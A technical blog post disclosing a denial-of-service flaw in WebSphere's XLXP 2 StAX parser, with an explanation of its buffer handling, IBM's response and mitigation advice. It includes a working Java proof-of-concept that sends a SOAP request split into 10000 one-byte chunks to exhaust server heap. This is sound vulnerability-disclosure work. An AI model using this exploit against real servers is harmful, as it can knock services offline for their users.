 ```yaml
---
layout: post
title: "Broken by design: WebSphere's default StAX implementation (part 1)"
category: tech
tags:
 - WebSphere
 - StAX
 - Exploit
 - Broken by design
blogger: /2013/10/broken-by-design-xlxp2.html
disqus: true
description: >
 This article exposes a design flaw in WebSphere's default StAX implementation (XLXP 2) that can be exploited to perform
 a denial-of-service attack.
---
```


Recently I came across an issue in WebSphere's default StAX implementation (XLXP 2) where the parser unexpectedly consumed a
huge amount of heap. The issue was triggered by a gzipped XML file containing a base64 encoded PDF document with several
megabytes of content. A test showed that although the size of the XML document was of order of 10 MB, XLXP 2 required almost
1 GB of heap to parse the document (without any additional processing). That is of course totally unexpected: for large
documents, an XML parser should never require an amount of heap 100 times as large as the size of the XML document.

After investigating the issue (with the XLXP 2 version in WAS 8.5.0.2), it turned out that the problem with IBM's parser is
caused by the combination of three things:

*   Irrespective of the value of the `javax.xml.stream.isCoalescing` property (`XMLInputFactory.IS_COALESCING`), the parser will
    always return a text node in the input document as a single `CHARACTERS` event (where the precise meaning of "text node" is
    a sequence of [`CharData`](http://www.w3.org/TR/REC-xml/#NT-CharData) and/or [`Reference`](http://www.w3.org/TR/REC-xml/#NT-Reference)
    tokens neither preceded nor followed by a `CharData` or `Reference` token).

    For readers who are not experts in the StAX specification, this requires some additional explanations. With respect to
    coalescing, the only requirement stipulated by StAX (which is notoriously underspecified) is that enabling coalescing mode
    "requires the processor to coalesce adjacent character data". There are two interpretations of this requirement:

    *   The first one is that this requirement is simply related to how [CDATA sections](http://www.w3.org/TR/REC-xml/#sec-cdata-sect)
        are processed. If coalescing is enabled, then CDATA sections nodes are implicitly converted to text nodes and merged with
        adjacent text nodes. In non coalescing mode, CDATA sections are reported as distinct events, such that there is one and only
        one event for each text node and CDATA section in the input document. This interpretation corresponds to the definition
        of coalescing used by DOM (see `DocumentBuilderFactory#setCoalescing()`).

    *   The second interpretation goes a step further and assumes that in non coalescing mode, the parser should handle text
        nodes in a way similar to SAX, i.e. split text nodes that are larger than parser's input buffer into chunks. In this
        case, a text node is reported as one or more CHARACTERS events. This allows the parser to process text nodes of
        arbitrary length with constant memory.

    BEA's original reference implementation and XLXP 2 are based on the first interpretation, while SJSXP (the StAX
    implementation in Oracle's JRE) and Woodstox use the second interpretation. Note that for applications using StAX, this
    doesn't really make any difference because an application using a StAX parser in non coalescing mode must be written
    such that it is able to correctly process any sequence of `CHARACTERS` and `CDATA` events.

*   XLXP 2 uses a separate buffer for each read operation on the underlying input stream, i.e. for each read operation, the
    parser will either allocate a new buffer or recycle a previously created buffer that is no longer in use. That is the case
    even if the previous read operation didn't fill the buffer completely: XLXP 2 will not attempt to read data into the buffer
    used during the previous read operation. By default, the size of each buffer is 64 KB.

*   When processing character data, the buffers containing the corresponding (encoded) data from the underlying stream remain
    in use (i.e. cannot be recycled) until the data has been reported back to the application. Note that this is a design
    choice: the parser could as well have been designed to accumulate the decoded character data in an intermediary buffer
    and immediately release the original buffers.

This has two consequences:

*   When processing a text node from the input document, all buffers containing chunks of data for that text node remain in use
    until the parser reaches the end of the text node.

*   If the read operations on the underlying input stream return less than the requested number of bytes (i.e. the buffer size),
    then these buffers will only be partially filled.

This means that processing a text node may require much more memory than one would expect based on the length of that text node.
Since the default buffer size is 64 KB, in the extreme case (where each read operation on the input stream returns a single byte),
the parser may need 65536 times more memory than the length of the text node. In the case I came across, the XML document
contained a text node of around 9 million characters and the input stream was a `GZIPInputStream` which returned more or less
600 bytes per read operation. A simple calculation shows that XLXP 2 will require of order of 900 MB of heap to process that text node.

IBM's reaction to this was that XLXP 2 is "working as designed" (!) and that the issue can be mitigated with the help of two
system properties:

`com.ibm.xml.xlxp2.api.util.encoding.DataSourceFactory.bufferLength`
:   Obviously, this system property specifies the size of the buffers described earlier. Setting it to a smaller value than the
    default 65536 bytes will reduce the amount of unused space. On the other hand, if the value is too small, then this will
    obviously have an impact on performance. Note that the fact that this parameter is specified as a system property is
    especially unfortunate, because it will affect all applications running on a given WebSphere instance.

`com.ibm.xml.xlxp2.api.util.Pool.STRONG_REFERENCE_POOL_MAXIMUM_SIZE`
:   This property was introduced by APAR [PM42465](http://www-01.ibm.com/support/docview.wss?uid=swg1PM42465) and is related to
    pooling of `XMLStreamReader` objects, not buffers. Therefore it has no impact on the problem described here.

However, it should be clear by now that adjusting these system property doesn't eliminate the problem completely, unless one uses
an unreasonable small buffer size. This raises another interesting question: considering that WebSphere's JAX-WS implementation
relies on StAX and that XLXP 2 may under certain circumstances allocate an amount of heap that is several order of magnitudes
larger than the message size, isn't that a vector for a denial-of-service attack? If it's possible to construct a request that
tricks XLXP 2 into reading multiple small chunks from the incoming SOAP message, couldn't this be used to trigger an OOM error
on the target application server?

It turns out that unfortunately this is indeed possible. The attack takes advantage of the fact that when WebSphere receives a
POST request that uses the chunked transfer encoding, the Web container will deliver each chunk separately to the application.
If the request is dispatched to a JAX-WS endpoint this means that each chunk is delivered individually to the StAX parser, which
is exactly the attack vector we are looking for. To exploit this vulnerability, one simply has to construct a SOAP message with
a moderately large text node (let's say 10000 characters) and send that message to a JAX-WS endpoint using 1-byte chunks
(at least for the part containing the text node). To process that text node, XLXP 2 will have to allocate 10000 buffers, each
one 64 KB in size (assuming that the default configuration is used), which means that more than 600 MB of heap are required.

The following small Java program can be used to test if a particular (JAX-WS endpoint on a given) WebSphere instance is vulnerable:

~~~ java
public class XLXP2DoS {
  private static final String CHARSET = "utf-8";
  
  public static void main(String[] args) throws Exception {
    String host = "localhost";
    int port = 9080;
    String path = "/myapp/myendpoint";
    Socket socket = new Socket(host, port);
    OutputStream out = socket.getOutputStream();
    out.write(("POST " + path + " HTTP/1.1\r\n"
        + "Host: " + host + ":" + port + "\r\n"
        + "Content-Type: text/xml; charset=" + CHARSET + "\r\n"
        + "Transfer-Encoding: chunked\r\n"
        + "SOAP-Action: \"\"\r\n\r\n").getBytes("ascii"));
    writeChunk(out, "<s:Envelope xmlns:s='http://schemas.xmlsoap.org/soap/envelope/'>"
        + "<s:Header><p:dummy xmlns:p='urn:dummy'>");
    for (int i=0; i<10000; i++) {
      writeChunk(out, "A");
    }
    writeChunk(out, "</p:dummy></s:Header><s:Body/></s:Envelope>");
    out.write("0\r\n\r\n".getBytes("ascii"));
    socket.close();
  }
  
  private static void writeChunk(OutputStream out, String data) throws IOException {
    out.write((Integer.toHexString(data.length()) + "\r\n").getBytes("ascii"));
    out.write(data.getBytes(CHARSET));
    out.write("\r\n".getBytes("ascii"));
  }
}
~~~

The vulnerability has some features that make it rather dangerous:

*   Since the amount of heap used is several order of magnitudes larger than the message size, it is generally possible to carry
    out this attack even against application servers with a maximum POST request size configured in the
    [HTTP transport channel settings][1].

[1]: http://pic.dhe.ibm.com/infocenter/wasinfo/v7r0/topic/com.ibm.websphere.express.doc/info/exp/ae/urun_chain_typehttp.html

*   An HTTP server in front of the application server doesn't protect against the attack. The reason is that the WebSphere plug-in
    forwards the chunks unmodified to the target server. The same will be true for most types of load balancers. For reverse
    proxies other than IBM HTTP Server this may or may not be true. On the other hand, a security gateway (such as DataPower) or
    an ESB will likely protect against this attack.

*   Since the request is relatively small, it will be difficult to distinguish from other requests and to trace back to its source.

One possible way to fix this vulnerability is to use another StAX implementation, as described in a
[previous post](/2013/10/02/broken-by-design-websphere-stax.html). In fact, switching the StAX implementation for a given Java EE
application also changes the StAX implementation used to process SOAP messages for JAX-WS endpoints exposed by that application.
Since WebSphere's JAX-WS implementation is based on Apache Axis2 and Apache Axiom, and the recommended StAX implementation for
Axiom is Woodstox, that particular StAX implementation may be the best choice. Note that this may still have some unexpected
side effects. In particular, XLXP 2 is known to implement some optimizations that are designed to work together with the JAXB 2
implementation in WebSphere. Obviously these optimizations will no longer work if XLXP 2 is replaced by Woodstox. It is also not
clear if using WebSphere's JAX-WS implementation with a non-IBM StAX implementation is supported by IBM, i.e. if you will get
help if there is an interoperability issue.

**Update:** IBM finally acknowledged that there is an issue with XLXP 2 (although they avoided qualifying it as a security issue).
See the [second part](/2013/12/09/broken-by-design-xlxp2-part2.html) of this article for a discussion about the "fix" IBM applied
to solve the issue.

